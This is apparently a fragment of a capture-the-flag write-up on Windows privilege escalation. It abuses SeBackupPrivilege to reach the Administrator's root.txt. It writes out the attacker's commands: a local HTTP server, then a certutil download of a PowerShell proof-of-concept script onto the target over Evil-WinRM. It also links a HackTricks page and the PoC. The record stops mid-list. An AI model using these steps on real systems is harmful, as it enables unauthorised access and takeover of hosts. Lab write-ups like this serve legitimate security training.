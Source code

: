 #### Checking the goal subfolder where we wanna get inside

* C:\Users\Administrator\Desktop\root.txt

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



#### PrivEsc

* whoami /priv
  * SeBackupPrivilege
    * well-known vuln to be privesced...
      * [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
      * POC: [https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post\_page-----83ddcc0db5c7--------------------------------](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------)
* nano esc.ps1 (from POC GitHub)
* python3 -m http.server 9000
* (Evil-WinRM) certutil -urlcache -f http://10.10.14.60:9000/esc.ps1 esc.ps1
*
